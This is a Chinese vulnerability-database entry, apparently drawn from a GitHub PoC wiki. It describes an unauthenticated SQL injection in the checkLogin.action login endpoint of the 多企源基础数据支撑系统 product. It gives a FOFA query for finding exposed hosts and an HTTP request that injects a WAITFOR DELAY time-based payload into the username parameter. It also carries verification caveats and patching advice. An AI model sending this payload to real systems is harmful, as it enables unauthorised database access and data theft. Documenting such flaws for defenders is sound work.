


# 多企源基础数据支撑系统 checkLogin.action SQL注入

## 条目说明

- 对象与具体问题：多企源基础数据支撑系统；checkLogin.action SQL注入
- 版本、配置及部署条件：未给版本；SQL Server WAITFOR
- 认证与权限前提：声称无需身份验证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- OA类别与具体产品形态需核对，不能只凭目录名定产品
- 缺HTTP围栏及延迟对照，RCE/在野利用不由该单一样本支持

## 操作风险

命令/代码执行示例可能改变主机状态；延迟探测可能占用数据库连接或影响服务。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

多企源-基础数据支撑系统 checkLogin.action 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

多企源-基础数据支撑系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="多企源-基础数据支撑系统"

POC/EXP：

```http
POST /json/checkLogin.action?usercfg.username=1%27;WAITFOR%20DELAY%20%270:0:9%27-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: zh-CN
Connection: keep-alive
```








## 修复方案

关闭互联网暴露面或接口设置访问权限。

联系厂家及时打补丁。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
